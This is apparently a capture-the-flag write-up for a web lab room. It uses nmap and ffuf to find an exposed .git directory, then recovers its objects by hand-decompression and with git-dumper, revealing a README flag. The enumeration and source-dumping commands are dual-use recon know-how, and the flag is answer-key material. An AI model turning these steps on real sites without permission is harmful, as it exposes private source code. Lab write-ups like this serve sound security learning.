


<div align="center">


# Room 404

#Web #DirectoryEnumeration
</div>

---


```bash
nmap -sV -sC 10.113.165.72 -oN nmap.txt
```

From the default scripts `-sC`, I can find a `.git` repo for the webserver running on port 8080.


I still choose to scan for more directories:

```bash
ffuf -u http://10.113.130.46 -w /usr/share/wordlists/dirb/big.txt
```

I didn't find anything else.



This is the `.git` directory, the interesting directory would be `objects/`. This is probably where the source code is.


I download all the objects and look at the file type:
```bash
file 12caa4e52a965e89e5eccf5760924b21aacbf7
```
`zlib compressed data`.

To decompress it:

```bash
printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" | cat - 12caa4e52a965e89e5eccf5760924b21aacbf7 | gzip -dc > output.txt 
```

Eventually I find this code:
```
blob 238# Byte Lotus — Guest Experience Platform

Internal staging repository for the guest app and concierge personalization
service. Do not deploy this folder to production.

Staging flag (remove before launch): THM{byt3_l0tus_n3v3r_f0rg3ts}
```

Another option to decompressing the objects would be to use git-dumper.

```bash
python3 -m venv .
source bin/activate
pip install git-dumper
git-dumper http://10.113.130.46:8080/.git/ ./dumped-repo
```

Now all the source code already is decompressed:
```bash
ls ./dumped-repo
```


The code snippet pasted above was the `README.md` file.